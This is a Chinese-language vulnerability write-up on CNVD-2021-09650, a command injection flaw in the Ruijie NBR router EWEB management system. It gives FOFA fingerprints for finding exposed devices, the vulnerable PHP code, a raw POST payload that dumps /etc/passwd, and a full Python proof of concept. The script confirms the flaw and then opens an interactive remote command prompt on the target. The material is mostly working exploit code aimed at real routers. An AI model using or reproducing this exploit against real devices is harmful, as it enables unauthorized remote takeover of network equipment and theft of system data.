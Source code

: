# 锐捷NBR路由器-EWEB网管系统-远程命令执行漏洞-CNVD-2021-09650

## 漏洞描述

锐捷NBR路由器 EWEB网管系统部分接口存在命令注入，导致远程命令执行获取权限

## 漏洞影响

> [!NOTE]
>
> 锐捷NBR路由器 EWEB网管系统

## FOFA

> [!NOTE]
>
> title="锐捷网络-EWEB网管系统"
>
> icon_hash="-692947551"

## 漏洞复现

![](锐捷NBR路由器-EWEB网管系统-远程命令执行漏洞-CNVD-2021-09650.assets/1627363608916455.jpg)

出现漏洞的文件在 **/guest_auth/guestIsUp.php**

```php
<?php
    //查询用户是否上线了
    $userip = @$_POST['ip'];
    $usermac = @$_POST['mac'];
    
    if (!$userip || !$usermac) {
        exit;
    }
    /* 判断该用户是否已经放行 */
    $cmd = '/sbin/app_auth_hook.elf -f ' . $userip;
    $res = exec($cmd, $out, $status);
    /* 如果已经上线成功 */
    if (strstr($out[0], "status:1")) {
        echo 'true';
    }
?>
```

这里看到通过命令拼接的方式构造命令执行，

```shell
POST /guest_auth/guestIsUp.php
mac=1&ip=127.0.0.1|cat /etc/passwd > test.txt
```

然后访问页面 **/guest_auth/test.txt** 就可以看到命令执行的结果

![](锐捷NBR路由器-EWEB网管系统-远程命令执行漏洞-CNVD-2021-09650.assets/16273636090850618.jpg)

## 漏洞利用POC

```python
import requests
import sys
import random
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: 锐捷网络-EWEB网管系统                                      \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/guest_auth/guestIsUp.php"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
    }
    data = "mac=1&ip=127.0.0.1| whoami > test_test.txt"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data,verify=False, timeout=5)
        if response.status_code == 200:
            print("\033[32m[o] 目标{}存在漏洞, 执行命令 whoami \033[0m".format(target_url))
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.get(url=target_url + "/guest_auth/test_test.txt", headers=headers, data=data, verify=False, timeout=5)
            print("\033[32m[o] 响应为： {} \033[0m".format(response.text))
            while True:
                cmd = input("\033[35mCmd >>> \033[0m")
                if cmd == "exit":
                    sys.exit(0)
                else:
                    POC_2(target_url, cmd)
        else:
            print("\033[31m[x] 目标不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, cmd):
    vuln_url = target_url + "/guest_auth/guestIsUp.php"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
    }
    data = "mac=1&ip=127.0.0.1| {} > test_test.txt".format(cmd)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data,verify=False, timeout=5)
        if response.status_code == 200:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.get(url=target_url + "/guest_auth/test_test.txt", headers=headers, data=data,verify=False, timeout=5)
            print("\033[32m[o] 响应为： \n{} \033[0m".format(response.text))
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](锐捷NBR路由器-EWEB网管系统-远程命令执行漏洞-CNVD-2021-09650.assets/16273636094203022.jpg)

## Goby & POC

> [!NOTE]
>
> 锐捷NBR路由器 EWEB网管系统 远程命令执行漏洞

![](锐捷NBR路由器-EWEB网管系统-远程命令执行漏洞-CNVD-2021-09650.assets/162736360965832.jpg)



